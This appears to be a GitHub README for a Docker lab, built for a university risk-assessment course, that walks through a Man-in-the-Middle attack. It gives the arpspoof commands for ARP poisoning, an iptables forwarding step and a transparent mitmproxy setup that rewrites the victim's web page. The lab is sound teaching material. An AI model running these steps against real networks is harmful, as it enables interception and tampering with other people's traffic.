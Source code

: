 # Man-in-the-Middle (MitM) Attack Practice using Docker

A simple and lightweight demo showcasing a **Man-in-the-Middle (MitM)** attack via **ARP poisoning** using Docker containers. This demonstration is designed for quick setup, requiring only Docker and `docker-compose`. Everything else is handled by the container configurations.

🔒 **Purpose:**  
This practical example have been created to demonestrate _Man-in-the-Middle (MitM) attacke using ARP poisoning_ as part of **ICT Risk Assessment** Course examination.

---

## 🛠 Tools Used
- **Docker**
- **docker-compose**
- **mitmproxy**
- **arpspoof**

---

## 📦 Environment Setup
The demo involves three Docker containers connected through a Docker bridge network named `mitm`:

1. **Bob**: Hosts an HTTP server serving files from the `bob_files` directory.  
2. **Alice**: Runs Firefox in a container. Access it from the host at [http://localhost:5800](http://localhost:5800).  
3. **Eve**: The attacker container, used via bash. It has the `eve_files` folder mounted as `/olicyber` inside the container. 

---

## 🔧 How to Run

### 1. Set Up the Environment
1. Install **Docker** and **docker-compose**.
2. Start the containers:
   ```bash
   docker-compose up -d

### 2. Verify Initial Setup

- Open **Alice's Firefox** at [http://localhost:5800](http://localhost:5800) and visit [http://bob/](http://bob/).  
  You should see the website served by Bob's HTTP server.  

- Verify Bob's MAC address from Alice's shell:
   ```bash
   docker exec -it alice /bin/sh
   ip neighbor
### 3. Discover IP Addresses

- On Eve's container, open two bash instances:
   ```bash
   docker exec -it eve /bin/bash

- Run the dig command to get Alice's and Bob's IP addresses:
    ```bash
   dig alice
   dig bob

### 4. Perform ARP Spoofing

In the two bash instances on Eve's container, run the following commands:
- **Instance 1**:
   ```bash
   arpspoof -t <alice_ip> <bob_ip>
- **Instance 2**:
   ```bash
   arpspoof -t <bob_ip> <alice_ip>
- Check on Alice's shell that Bob's IP now maps to Eve's MAC address:
  ```bash
   ip neighbor
  
## 🔥 Simulating the Attack

### Step 1: Forward Traffic Through Eve
- Run the `add_iptables_rule.sh` script on Eve to forward traffic:
   ```bash
   cd olicyber
   chmod +x add_iptables_rule.sh
   ./add_iptables_rule.sh
   #OR
   olicyber/add_iptables_rule.sh
   
   

- Verify that Alice's browser now shows an error when reloading the page. This occurs because packets are being intercepted by Eve but dropped since the proxy is inactive.

### Step 2: Activate the Proxy in Passive Mode

- Start the proxy in passive mode:
   ```bash
   mitmproxy -m transparent

- Reload the page in Alice's browser. The website will load normally, but Eve's mitmproxy instance will display the intercepted requests.

### Step 3: Modify the Webpage

- Restart the proxy with a custom script to alter the website content:
  
  ```bash
  mitmproxy -m transparent -s /olicyber/proxy.py
  
- Reload the browser page, and you'll see the altered website content.

## 🛑 Shutting Down

- Remove the iptables rule:
   ```bash
   /olicyber/del_iptables_rule.sh
   
- Stop the ARP spoofing processes in Eve's bash instances.
